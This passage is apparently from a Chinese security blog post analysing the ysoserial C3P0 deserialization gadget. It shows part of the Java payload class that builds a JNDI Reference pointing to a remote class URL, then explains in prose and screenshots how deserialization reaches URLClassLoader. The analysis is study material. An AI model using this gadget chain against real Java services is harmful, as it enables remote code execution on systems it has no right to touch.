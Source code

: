 ```java
        return b;
    }
    private static final class PoolSource implements ConnectionPoolDataSource, Referenceable {
        private String className;
        private String url;
        public PoolSource ( String className, String url ) {
            this.className = className;
            this.url = url;
        }
        public Reference getReference () throws NamingException {
            return new Reference("exploit", this.className, this.url);
        }
        public PrintWriter getLogWriter () throws SQLException {return null;}
        public void setLogWriter ( PrintWriter out ) throws SQLException {}
        public void setLoginTimeout ( int seconds ) throws SQLException {}
        public int getLoginTimeout () throws SQLException {return 0;}
        public Logger getParentLogger () throws SQLFeatureNotSupportedException {return null;}
        public PooledConnection getPooledConnection () throws SQLException {return null;}
        public PooledConnection getPooledConnection ( String user, String password ) throws SQLException {return null;}
    }
    public static void main ( final String[] args ) throws Exception {
        PayloadRunner.run(C3P0.class, args);
    }
}
```

这里的poolSource

![image-20220511234535859](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220511234535859.png)

没有实现反序列化接口，所以在`writeObject`的时候

![image-20220511234626839](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220511234626839.png)

会进入图中的流程。

![image-20220511234828167](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220511234828167.png)

![image-20220511234838580](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220511234838580.png)

`Referenceable`继承了的。所以在最后，这属性就变成了`ReferenceIndirector`.然后在反序列化的时候。

![image-20220511235157612](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220511235157612.png)

调用他的getObject.

![image-20220511235234844](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220511235234844.png)

然后就会调用`URLClassLoader`.

![image-20220511235339139](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220511235339139.png)
